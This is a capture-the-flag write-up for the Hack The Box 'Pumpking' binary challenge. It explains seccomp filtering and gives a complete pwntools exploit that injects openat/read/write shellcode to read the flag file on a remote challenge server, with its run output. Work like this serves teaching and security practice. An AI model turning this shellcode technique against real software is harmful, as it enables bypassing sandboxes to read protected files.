





# Pumpking

Difficulty:: #easy 

## Introduction

This challenge give us a binary that can execute the data bytes that we send it. But it was limited with the [seccomp](https://man7.org/linux/man-pages/man2/seccomp.2.html) to limite the functions that can use the `SYSCALL` instruction. so we need to understand how this security feature works and what functions we are able to execute in order to read flag in the server. Also this challenge is a good oportunity to understan a little about how the assembler instructions works.

> This challenge was updated during the event to include dockerfile data. The reason of that is that we know exactly where the flag file was located.

## Target data
- `Spawn Docker`: `159.65.49.148:30454`
- `File`: `pwn_pumpking.zip`

## Challenge Description
*Long live the King! Pumpking is the king of our hometown and this time of the year, he makes wishes come true! But, you must be naughty in order to get a wish.. He is like reverse Santa Claus and way cooler!*

## Enumeration

We are given the following data: 
```shell
magor$ tree pwn_pumpking
pwn_pumpking
├── Dockerfile
├── build-docker.sh
└── challenge
    ├── flag.txt
    ├── glibc
    │   ├── ld-linux-x86-64.so.2
    │   └── libc.so.6
    └── pumpking
```

>**Note**: This challenge had a udapte, in which they include the `Dockerfile` and the `build-docker.sh` to allow us to know where was stored the `flag.txt` file.

```shell
magor$ file pumpking
pumpking: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=fbd2ae75e4f0a999c62a92360d6a085e30637725, for GNU/Linux 3.2.0, not stripped
```

We can see that is a [Executable and linkable format](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) and is **not stripped** so we could find variables and function names when decompile it.

I also use pwntools to `checksec` to identify the security propierties of the binary:

```shell
magor$ pwn checksec ./pumpking
[*] '/mnt/d/miguel/estudiar/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
```

We have:
- [`Full RELRO`](https://ir0nstone.gitbook.io/notes/types/stack/relro):  Full [Relocation Read-Only](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro) This means that the GOT is completly read only. We can't overwriting it.
- [`Canary found`](https://ir0nstone.gitbook.io/notes/types/stack/canaries) : So we can't perform a Stack base buffer overflow.because before reach the `ret` instruction there will be a validation of a random numebr initializate at the beggining of the stack.
- [`NX disabled`](https://ir0nstone.gitbook.io/notes/types/stack/no-execute): This means that we could inject our own instruction into the program.
- [`PIE enabled`](https://ir0nstone.gitbook.io/notes/types/stack/pie):  [Position Independient executable](https://en.wikipedia.org/wiki/Position-independent_code) enabled. Every time that we run the file it will be load into a different memory address.

I open Ghidra to decompile the binary and look for the main function:


First the file initializate some data an call `setup()` function. after that ask us for a *secret pasphrase* with the `write()` function and  with `read()` it take what we write in STDIN. Then it compare our input with `pumpk1ngRulez` to call the `king()` function otherwise it ends the execution.

So we got the first step that is write the passphare: `pumpk1ngRulez` to continue. I test that:

```shell
magor$ ./pumpking

First of all, in order to proceed, we need you to whisper the secret passphrase provided only to naughty kids: pumpk1ngRulez

[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!

>>
```

This is working. Now lets check it out the `king()` function

### king

The `king()` function is very short. first send to STDOUT the text we saw in the previous execution using `write()` and after that it reads from `STDIN` until `149` bytes (`0x95` hex) to the memory address in `&local_a8`. Then it use the pointer to execute whateve we send it with`(*(code *)` . This means that it we dont send instructions it will fail and ends the execution.




I test this behaivor send it `test` string and it give us the `SIGSEGV` signal. 
```
magor$ ./pumpking

First of all, in order to proceed, we need you to whisper the secret passphrase provided only to naughty kids: pumpk1ngRulez

[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!

>> test
fish: './pumpking' terminated by signal SIGSEGV (Address boundary error)
```

Reading about the [`read(fs, buf, N)`](https://www.ibm.com/docs/en/zos/2.1.0?topic=functions-read-read-from-file-socket) function. It has 3 parameters:

- `fs` : File or socket descriptor.
- `buf` : The pointer to the buffer that receives the data.
- `N`: The length in bytes of the buffer pointed to by the buf parameter.

Its mainly used to read files, but we have to know that `STDIN`, `STDOUT` and `STDERR` are also file descriptors  `0, 1, 2` respectively. 

## Foothold

At this point I think that only I need to send the assembelr instructions to create a shell or to read the file. So i start to write a script with Python `pwntools` library:

```shell
magor$ pwn template ./pumpking --host 159.65.49.148 --port 30454 > solve_pumpking.py
```

It creates the following code template:
```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./pumpking --host 159.65.49.148 --port 30454
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pumpking')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '159.65.49.148'
port = int(args.PORT or 30454)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments
# RUNPATH:  b'./glibc/'

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```


And now I write the following lines in the lines after `io = start()`:

```Python
shellcode = asm(shellcraft.sh())

print(f"Len shellcode: {len(shellcode)}")
io.sendlineafter(b'kids: ', b'pumpk1ngRulez')

io.sendlineafter(b'>> ', shellcode)
```

But I got a error
```shell
magor$ python solve_pumpking.py LOCAL
[*] '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
[+] Starting local process '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking': pid 5239
Len shellcode: 48
[*] Switching to interactive mode
\x00[*] Got EOF while reading in interactive
```

After debuging with GDB (at the end of the writeup I debug it with GDB in the [Go Beyond](#Go%20Beyond) section) I notice that there was something that I ignore thinking that it wasn't important. And that was the `setup()` function at the beggining of the `main()` function:

### setup


I seek for `seccomp` and found the [man linux seccomp guide](https://man7.org/linux/man-pages/man2/seccomp.2.html) and identify that it can be used to limited the `syscall` functions for security reasons.

So I read how works the [`seccopm_rule_add`](https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html)  and a example of use is:

```c
// EXAMPLES         top
// ...SNIP...
#include <seccomp.h>
// ...SNIP...
scmp_filter_ctx ctx;
// ...SNIP...
            rc = seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
            if (rc < 0)
                 goto out;
// ...SNIP...
```

I check what value has the `SCMP_ACT_ALLOW` constant to compare it with the hex found in the decompile function `0x7fff0000`. I seek the library to  [`seccomp.h`](https://github.com/seccomp/libseccomp/blob/main/include/seccomp.h.in) to see what value has this constant and found that in fact is the same hex value:



Now I want to know what syscall are allowed so i search for [all syscall int values](https://www.google.com/search?q=all+syscall+int+values) and found [Linux syscall table](https://filippo.io/linux-syscall-table/) where there is a list of all syscall id numbers:



So I look for the `0,1,15` and `257` because of those are the values in the third parameter of the `seccomp_rule_add()` function in the decompile Ghidra. and found:
```
0  read
1  write
15  rt_sigreturn
257  openat
```

So only I can syscall those functions. And this is the reason I couldn't execute the basics shell payloads, because I was not using the valids functions to this file. So to use the `read` and `write` functions to read the file and writing in the `STDOUT` i need first load the file but `open` function is not allowed. So probably I could use `openat` so I seek for information about how it works And from [linux.die.net openat](https://linux.die.net/man/2/openat):

>The `openat()` system call operates in exactly the same way as `open(2)`, except for the differences described in this manual page.
>If the pathname given in pathname is relative, then it is interpreted relative to the directory referred to by the file descriptor dirfd (rather than relative to the current working directory of the calling process, as is done by open(2) for a relative pathname).
>If pathname is relative and dirfd is the special value AT_FDCWD, then pathname is interpreted relative to the current working directory of the calling process (like open(2)).
>**If pathname is absolute, then dirfd is ignored. **

Syntax:
```
int openat(int dirfd, const char *pathname, int flags);
int openat(int dirfd, const char *pathname, int flags, mode_t mode);
```

So it can be used exactly like the `open()` function, and I am gonna use the absolute path so the first parameter `dirfd` will be ignore

```Python
# solve_pumping.py
# ...SNIP...
io = start()


shellcode  = b''
shellcode += asm(shellcraft.openat(0, '/tmp/flag.txt')) ➊
shellcode += asm(shellcraft.read(3, 'rsp', 80)) ➋
shellcode += asm(shellcraft.write(1 , 'rsp', 80)) ➌

print(f"Len shellcode: {len(shellcode)}") ➍

io.sendlineafter(b'kids: ', b'pumpk1ngRulez') ➎
io.sendlineafter(b'>> ', shellcode) ➏

io.interactive()
```

First  I add the assembler representation of the `openat` instruction ➊ (the first parameter will be ignored like i say above, so I virtually could write anything there and nothing different will happen). After that I use the `read()` function ➋. here there is a trick, we dont know the [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)where the file will be load but we can tyr an failure from a lowest file descriptor (because  this is a single process and we know that there is not more file descriptor loaded  So we can try with  `3`). Then write it to the file descritor of the standard output STDOUT (it means `1`) ➌. With that the shellcode is complete. But to ensure that it will not faild due to the size of the shellcode I print the size in ➍ (remember that the `read()` was limited to a `0x95` ,it meas `149 bytes`). And finnally send the password ➎ and send the shellcode ➏.

I test it locally and  it works!:

```shell
magor$ python solve_pumpking.py LOCAL
[*] '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
[+] Starting local process '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking': pid 5364
Len shellcode: 78
[*] Switching to interactive mode
\x00HTB{f4k3_fl4g_4_t35t1ng}
\xb8PH\xb8f/uyuH1\x04H\xb8/tmp/flaPH\x89\xe61\x[*] Got EOF while reading in interactive
```

> **Notes**: 
> - Due to we  are limited to send max `149` bytes (`0x95` hex) I have to ensure a short `path` so this is the reason i copy the testing flag to `/tmp`
> - I also search [`"openat" shellcode`](https://www.google.com/search?client=firefox-b-d&q=%22openat%22+shellcode) and found this [Shellcraft writeup](https://ctftime.org/writeup/33232) that is similiar to this challenge.
> - During the challenge, the staff make an update to include the `docker` data files to we know where is located the `flag.txt`. 

Now only change the path to the flag. To the docker spawned server is `/home/ctf/flag.txt`. But when I try to get the flag it fails!.

I build the docker locally to analize it. And I notice that with the docker, the file descriptor were the flag file is opened isn't the `3` it will be the `5`. So the finall code Script will be:


```python
# solve_pumpking.py 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./pumpking --host 159.65.49.148 --port 30454
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pumpking')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '159.65.49.148'
port = int(args.PORT or 30454)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        fd = 3 # the minimun file descriptor locally is  3
        route = b'/tmp/flag.txt'
        return start_local(argv, *a, **kw), route, fd
    else:
        route = b'/home/ctf/flag.txt'
        fd = 5 # the minimun file descriptor locally is  3
        return start_remote(argv, *a, **kw), route, fd

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments
# RUNPATH:  b'./glibc/'

io, route, fd = start()


shellcode  = b''
shellcode += asm(shellcraft.openat(0, route)) # save it in the mininum file descriptor allowed
shellcode += asm(shellcraft.read(fd, 'rsp', 80)) 
shellcode += asm(shellcraft.write(1 , 'rsp', 80))

print(f"Len shellcode: {len(shellcode)}")

io.sendlineafter(b'kids: ', b'pumpk1ngRulez')
io.sendlineafter(b'>> ', shellcode)

io.interactive()
```

And execute it (without `LOCAL` argument to do it remotely) and get the flag: 

```shell
magor$ python solve_pumpking.py
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
[+] Opening connection to 159.65.49.148 on port 30454: Done
Len shellcode: 78
[*] Switching to interactive mode
[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!
>> \x00HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
f/flag.tPH\xb8/home/ctPH\x89\xe6j\xff[*] Got EOF while reading in interactive
```

## Reference

### Pwn documentation

- [Binary exploitation](https://www.romanh.de/article/binary-exploitation)
- [Stack canaries](https://ir0nstone.gitbook.io/notes/types/stack/canaries)
- [Shellcode payloads](http://shell-storm.org/shellcode/index.html)
- [pwntools](https://tc.gts3.org/cs6265/2019/tut/tut03-02-pwntools.html)
- [pwntools cheatsheet](https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf#assembly-and-shellcraft)

### Linux / C
- [Linux system call table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [Executable and linkable format](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) 
- [Understanding elf file format](https://linuxhint.com/understanding_elf_file_format/)
- [`read`C Function](https://www.ibm.com/docs/en/zos/2.1.0?topic=functions-read-read-from-file-socket)
- [man linux seccomp guide](https://man7.org/linux/man-pages/man2/seccomp.2.html)
- [seccopm_rule_add](https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html)
- [`seccomp.h`](https://github.com/seccomp/libseccomp/blob/main/include/seccomp.h.in)

### Useful write-ups
- [No Risc, No Future](https://github.com/0xf4b1/ctftime/blob/master/hack.lu/pwn/no-risc-no-future/README.md)
- [Speedrun](https://github.com/datajerk/ctf-write-ups/tree/master/sunshinectf2020/speedrun#speedrun-07)
- [Sandboxed ROP](https://ctftime.org/writeup/26751)
